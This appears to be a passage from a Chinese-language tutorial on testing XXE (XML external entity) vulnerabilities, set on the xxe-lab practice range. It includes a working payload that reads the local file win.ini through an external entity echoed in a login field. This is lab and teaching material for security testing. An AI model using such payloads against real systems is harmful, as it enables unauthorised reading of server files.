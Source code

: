 HTML被设计用来显示数据，其焦点是数据的外观。

HTML指在显示信息，而XML指在传输数据。

# 3.**XXE漏洞测试**

在测试中所有的语句基本上的固定格式，也就是说构建的payload基本上只需要修改调用协议，以及相关的参加即可，其它的格式，都是固定的可以直接使用。

## 3.1.**有回显测试**

像之前提到的，如果有回显，那么就可以配合更多的协议或外部引入进行利用。那么这里就先简单测试一下有回显状态。

### 3.1.1.**有回显案例**

这里我们使用xxe-labs靶场。下载链接：https://github.com/c0ny1/xxe-lab

#### 3.1.1.1.**测试回显位置**

通过测试，能够看到在admin位置是存在回显的，而后面的password位置的1是没回显的。

![img](assets/XsThtfdGubkPvBR.jpg) 

#### 3.1.1.2.**构建payload**

构建payload后，也是成功的读取到了文件。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE test [

<!ENTITY name SYSTEM "file:///c://windows/win.ini">

]>

<user><username>&name;</username><password>1</password></user>
```
